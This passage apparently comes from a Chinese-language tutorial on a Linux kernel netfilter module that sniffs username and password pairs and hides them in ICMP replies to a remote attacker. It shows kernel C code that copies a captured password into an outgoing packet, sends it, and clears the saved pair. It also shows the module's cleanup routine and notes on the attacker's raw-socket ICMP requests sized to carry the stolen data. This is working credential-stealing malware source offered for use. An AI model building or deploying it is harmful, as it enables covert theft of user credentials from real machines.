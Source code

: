  ```c
        if (password)
            memcpy(cp_data + 20, password, 16);
        /*
        * This is where things will die if they are going to.
        * Fingers crossed...
        * 发送 buffer
        * A negative errno code is returned on a failure.
        * A success does not guarantee the frame will be transmitted
        * as it may be dropped due to congestion or traffic shaping.*/
        dev_queue_xmit(sb);
        printk("the pair has been send to target");
        /* Now free the saved username and password and reset have_pair */
        kfree(username);
        kfree(password);
        username = password = NULL;
        have_pair = 0;
        target_port = target_ip = 0;
        printk("clear the pair\n");
        /* 不能return NF_DROP，因为dev_queue_xmit将释放缓冲区，
        * Netfilter将尝试对NF_DROPped数据包执行相同操作，导致内核错误。*/
        return NF_STOLEN;
    }


 ```
    
 #### 5. 清理netfilter
 ```c
    void cleanup_module()
    {
        //struct net *net=NULL;
        nf_unregister_net_hook(&init_net,&post_hook);
        nf_unregister_net_hook(&init_net,&pre_hook);
        if (password)
        kfree(password);
        if (username)
        kfree(username);
        return;
    }
    
 ```
 
 ### hack端的操作 
 

* 向target发送特殊的icmp包  

    raw socket 编程, 发送icmp数据包 ，保证足够的长度盛放target返回的数据。 

    ip头  20字节  icmp头 8字节  icmp数据 4+16+16=36字节   

* 接收和打印target发回的数据
